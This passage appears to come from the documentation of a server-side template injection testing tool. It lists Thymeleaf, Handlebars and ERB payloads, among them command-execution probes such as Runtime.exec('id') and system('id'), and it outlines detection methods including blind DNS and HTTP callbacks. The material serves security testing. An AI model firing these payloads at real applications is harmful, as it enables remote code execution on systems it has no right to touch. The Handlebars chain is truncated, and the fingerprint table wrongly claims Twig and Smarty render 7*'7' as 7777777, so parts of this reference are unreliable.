 - **Thymeleaf**: Modern Java template engine for Spring
  - Syntax: `${expression}`, `th:text`
  - Common payloads: `${7*7}`, `${T(java.lang.Runtime).getRuntime().exec('id')}`
  - ✅ **Status**: Complete with Spring context access and type expressions

### JavaScript-Based Engines ✅ FULLY IMPLEMENTED
- **Handlebars**: Popular JavaScript template engine
  - Syntax: `{{expression}}`, `{{#helper}}`
  - Common payloads: `{{7*7}}`, `{{#with "s" as |string|}}{{#with "e"}}{{#with split as |conslist|}}{{this.pop}}{{/with}}{{/with}}{{/with}}`
  - ✅ **Status**: Complete with constructor exploitation and Node.js globals

### Ruby-Based Engines ✅ FULLY IMPLEMENTED
- **ERB**: Embedded Ruby template engine
  - Syntax: `<%= expression %>`, `<% code %>`
  - Common payloads: `<%= 7*7 %>`, `<%= system('id') %>`, `<%= Dir.entries('/') %>`
  - ✅ **Status**: Complete with Ruby code execution and Rails object access

## Detection Methodologies

### 1. Mathematical Expression Evaluation
The most basic and reliable method:
```
Payload: {{7*7}}
Expected: 49
Indicates: Template engine processing mathematical expressions
```

### 2. Template-Specific Syntax Detection
Each engine has unique syntax patterns:
```
Jinja2: {{7*'7'}} → 7777777
Twig: {{7*'7'}} → 7777777  
Smarty: {7*'7'} → 7777777
```

### 3. Error-Based Detection
Triggering template engine errors:
```
Payload: {{undefined_variable}}
Response: Template error messages revealing engine type
```

### 4. Blind Detection Techniques
When output is not directly visible:
- Time-based delays
- DNS exfiltration
- HTTP callbacks
- File system interactions

### 5. Context-Aware Detection
Understanding injection context:
- Attribute context: `<img src="{{payload}}">`
- JavaScript context: `var x = "{{payload}}"`
- CSS context: `body { color: {{payload}} }`
